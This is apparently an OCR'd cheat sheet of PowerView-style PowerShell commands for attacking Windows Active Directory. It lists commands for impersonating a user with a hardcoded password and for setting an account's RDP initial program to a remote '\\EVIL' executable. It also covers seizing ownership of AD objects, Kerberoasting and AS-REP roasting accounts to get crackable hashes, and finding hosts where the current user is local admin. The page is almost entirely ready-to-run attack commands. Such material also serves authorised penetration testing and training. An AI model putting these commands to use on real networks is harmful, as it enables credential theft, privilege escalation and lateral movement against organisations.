 User impersonation helpers (STA)
- Temporarily impersonate a different credential (runas /netonly-like).
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a',$SecPassword); Invoke-UserImpersonation -Credential $Cred
```
- Revert impersonation back to self.
```powershell
Invoke-RevertToSelf
```

Object outliers, setters, ownership
- Detect outlier properties across computer objects.
```powershell
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
```
- Set arbitrary attributes on an AD object.
```powershell
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```
- Take or set ownership of an AD object.
```powershell
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```

Kerberoasting and AS-REP roast
- Kerberoast using defaults (prints TGS hashes).
```powershell
Invoke-Kerberoast
```
- Kerberoast a specific account, Hashcat format.
```powershell
Invoke-Kerberoast -Identity "svc_sql" -OutputFormat Hashcat
```
- Kerberoast scoped to a specific OU/SearchBase.
```powershell
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=testlab,DC=local" -OutputFormat Hashcat
```
- List AS-REP roastable users (no preauth).
```powershell
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname
```
- Request AS-REP roast for a specific user.
```powershell
Invoke-ASREPRoast -UserName jdoe -Verbose
```

Local admin reachability
- Threaded probe to find where you’re local admin (SMB/RPC).
```powershell
Find-LocalAdminAccess
```
- Test admin access to a single host.
```powershell
Test-AdminAccess -ComputerName WS01
```
